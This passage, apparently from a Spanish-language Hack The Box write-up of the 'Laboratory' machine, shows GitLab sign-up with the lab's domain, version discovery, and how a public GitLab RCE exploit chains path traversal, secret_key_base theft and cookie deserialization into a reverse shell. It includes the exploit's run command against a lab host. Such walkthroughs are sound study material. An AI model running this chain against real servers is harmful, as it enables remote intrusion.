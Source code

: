 ![298page80_git_domain](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_domain.png)

Nice, tenemos `GitLab` activo, con la posibilidad de crearnos una cuenta e ingresar, hagámoslo y veamos que hay dentro...

Pero al momento de intentar registrarnos con el correo `lanz@lanz.com` (y otros diferentes) obtenemos este error:

```html
1 error prohibited this user from being saved:

    Email domain is not authorized for sign-up
```

Acá ya me iba a empezar a complicar, pero recordé... y si probamos con el dominio `laboratory.htb`? Osea `lanz@laboratory.htb`:

![298page80_git_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_dashboard.png)

Pos sí, logramos entrar, démosle una vuelta a la página...

En `/help` vemos la versión:

![298page80_git_version](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_version.png)

**Acá tuve algo de suerte**, hace poco había estado jugando con el exploit que vamos a usar:

Buscando en la web sobre esa versión y sus posibles exploits, nos encontramos este script que se aprovecha de una vulnerabilidad combinando dos vectores de ataque para ya sea, obtener información de los archivos dentro del sistema ([Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)) o ejecutar comandos en el sistema (RCE).

Todo el proceso se logra gracias al ([Path Traversal]()), ya que extrae la `secret_key_base` usada por `Rails`. Para posteriormente obtener ejecución de comandos explotando una deserialización de una cookie llamada: `experimentation_subject_id`.

* Descripción de la vulnerabilidad. - [rapid7.com/gitlab_file_read_rce](https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/).
* Exploit que usaremos creado por `dotPY-hax`. - [github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)

Si revisamos el código, solo debemos cambiar: el puerto al cual queremos que se genere la reverse Shell y el dominio con el que creara la cuenta:

![298bash_exploit_reviewcode](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_reviewcode.png)

Ejecutemos:

```bash
–» python3 gitlab_rce.py
usage: gitlab_rce.py <http://gitlab:port> <local-ip>

–» python3 gitlab_rce.py https://git.laboratory.htb 10.10.14.159
...
```

![298bash_exploit_running_choose](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_running_choose.png)

